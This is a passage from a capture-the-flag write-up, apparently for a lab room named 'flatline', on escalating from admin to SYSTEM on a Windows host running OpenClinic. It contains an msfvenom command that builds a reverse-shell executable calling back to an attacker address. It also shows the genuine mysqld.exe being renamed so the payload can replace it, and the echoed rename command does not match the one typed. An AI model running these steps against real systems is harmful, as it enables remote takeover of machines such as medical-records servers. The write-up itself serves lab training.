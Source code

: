 We are `admin` but cannot read the root flag? outrageous

It's a `system` level flag then! We gotta get there


Now we start looking around from the root

Look what we found!

```
C:\projects>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 84FD-2CC9

 Directory of C:\projects

09/11/2021  07:18    <DIR>          .
09/11/2021  07:18    <DIR>          ..
09/11/2021  07:29    <DIR>          openclinic
               0 File(s)              0 bytes
               3 Dir(s)  50,528,256,000 bytes free

```
What is `openclinic` you ask? I don't know...let's ask google

>OpenClinic is an easy to use, open source, medical records system written in PHP. It has been mainly thougth for private clinics, surgeries and ...

Do you realise we might have hacked a hospital? XD (c'mon that's funny)

Now I understand why the room is called "flatline"

and why the author ask how low our morals are (very low indeed)

Again, Let's add "exploit" to our google query (the magic word)

The first result is from exploitdb again (then you know it's good stuff)

Just follow the PoC to abuse their mariadb services

Craft the exploit!

```
└──╼ $msfvenom -p windows/shell_reverse_tcp LHOST=10.8.226.203 LPORT=2311 -f exe > ./mysqld.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes

```

On the target machine, invalidate the real db by renaming it

```
C:\projects\openclinic\mariadb\bin>cd C:\projects\openclinic\mariadb\bin
cd C:\projects\openclinic\mariadb\bin

C:\projects\openclinic\mariadb\bin>ren "mysqld.exe" "mysqld_bak.exe" 
rename "mysqld.exe" "mysqld.bak" 
```
And deliver yours in the same folder (my python server is still up so I dont need apache)
